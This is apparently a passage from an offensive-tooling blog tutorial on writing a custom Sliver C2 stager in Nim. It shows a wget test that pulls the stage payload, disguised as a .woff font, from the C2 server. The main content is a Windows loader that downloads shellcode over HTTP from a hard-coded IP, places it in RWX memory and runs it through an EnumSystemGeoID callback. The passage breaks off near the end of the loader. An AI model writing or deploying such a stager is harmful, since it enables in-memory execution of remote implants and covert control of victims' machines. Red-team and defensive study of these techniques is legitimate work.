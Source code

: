 Since the effort was made to create a binary to run the generated stager, why not go all the way and create a custom stager? This is easier than it sounds. Sliver has [documentation on how to make your own stager](https://github.com/BishopFox/sliver/wiki/Stagers) on their Github page.  

All we have to do is to fetch the payload being served on the Sliver server through the ```stage-listener```. Viewing the [Sliver C2 documentation](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#implant_config), we see the Sliver serves the main payloads on the HTTP protocol when requesting any file with the ```.woff``` file extension. This can be tested by using something like ```wget``` on the sliver server and requesting a file such as ```googlewebfront.woff```  

```
┌──(kali㉿kali-vle)-[~/nim/malzDev/Sliver-stage-0]
└─$ wget localhost:80/googlewebfront.woff

┌──(kali㉿kali-vle)-[~/nim/malzDev/Sliver-stage-0]
└─$ cat googlewebfront.woff| xxd | head -n 3
00000000: 3879 2f42 3f45 2847 2b4b 6250 6553 6841  8y/B?E(G+KbPeShA
00000010: 848d 2a78 ce77 153b eaff aca8 d27a 0e69  ..*x.w.;.....z.i
00000020: 2887 67c6 f0f0 f8d8 477d 8639 e58e 1d0c  (.g.....G}.9....

```  

The stage listener returned the shellcode in the HTTP response. Now a simple client can be created that fetches the shellcode over HTTP(S) and executes it in memory:  

```
import std/httpclient
import winim/lean
import sequtils

when defined(windows):

    proc main(): void =
        let currentproc = GetCurrentProcessId()
        echo "[*] Current process ID: ", currentproc

        var client = newHttpClient()
        var response = client.getContent("http://198.18.103.68/googlewebfront.woff")

        # Convert the downloaded implant from string to array
        var bytes = response.toSeq()

        # Allocate memory
        let memPtr = VirtualAlloc(
            nil,
            cast[SIZE_T](bytes.len),
            MEM_COMMIT,
            PAGE_EXECUTE_READ_WRITE
        )

        # Copy our shellcode to the memory section
        echo "[*] Copying shellcode to memory..."
        CopyMemory(memPtr, addr(bytes[0]), cast[SIZE_T](bytes.len))


        echo "[*] Executing shellcode..."
        # Interesting way to exec our code, ref: https://github.com/HuskyHacks/RustyProcessInjectors/blob/master/EnumSystemGeoID/src/main.rs
        EnumSystemGeoID(
            16,
            0,
            cast[GEO_ENUMPROC](memPtr)
        )


    when isMainModule:
```
